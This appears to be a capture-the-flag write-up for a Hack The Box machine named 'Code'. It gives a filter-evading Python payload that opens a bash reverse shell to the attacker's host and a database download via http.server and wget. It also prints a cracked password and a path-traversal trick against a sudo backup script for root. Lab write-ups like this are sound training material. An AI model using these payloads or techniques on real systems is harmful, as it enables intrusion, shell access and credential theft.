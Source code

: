 
![Code](https://github.com/user-attachments/assets/965bd010-eb39-4023-bf9d-caa94809d4ca)


found a  python gunicorn service runnning on 5000 port 

go on it , you find a python interpreter that filter some strings we could use to gain rce , informating about the technology , i came across , Ace 1.4.12 
	As it said , it has some vulns allows to do arbritary code execution

from a specific internet forum , i got 

		module%20%3d%20globals()%5b'o'%2b's'%5d%0acommand%20%3d%20getattr(module%2c%20'sy'%2b'stem')%0acommand('bash%20-c%20%22bash%20-i%20%3e%26%20%2fdev%2ftcp%2f[ip]%2f9001%200%3e%261%22')

so intercept the run button request in burp and replace the value of variable code by the payload given above , and seting up a nc listenner 
you got a user flag

enumerating using linpeas , i saw some app running and it's folder is dropped in the user we are directory 

#so you'll find a database file in /home/app-production/app/instance/database.db
	donwload it to your machine 

on target machine: run in the folder were the database is : 
		python3 -m http.server 
#it will start a local python server on 8000 port by default 

on your machine :	
 		wget http://IP:PORT/database.db

Open it using sqlite databse browser , and view in the user's table ; you'll see users development and martin , 
	in /home folder is a user named martin , so take his pass hash and decode it 
	it md5 one 
		martin : nafeelswordsmaster


log using ssh now  martin@IP  ; pass the password , get connected 
 
			for root once you connected 
			sudol -l 

	privesc 
		cat > /home/martin/backups/task.json << EOF
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/var/....//root/"
  ]
}
EOF


so run now : sudo /usr/bin/backy.sh /home/martin/backups/task.json

go now onto /home/martin/backups/
	ls -la , you'll see backups files , download them , unzip them and enjoy the root flag 

	ls -l
	wget http://IP:PORT/code_var_.._root_2025_March.tar.bz2
	
	tar -xvjf code_home_martinbackups*.tar.bz2
	cat root/root.txt

![Screenshot 2025-05-05 at 05-14-08 Hack The Box Hack The Box](https://github.com/user-attachments/assets/7462e83e-394c-4a82-9215-6d6173ef7e39)

#ArtemisTEAM
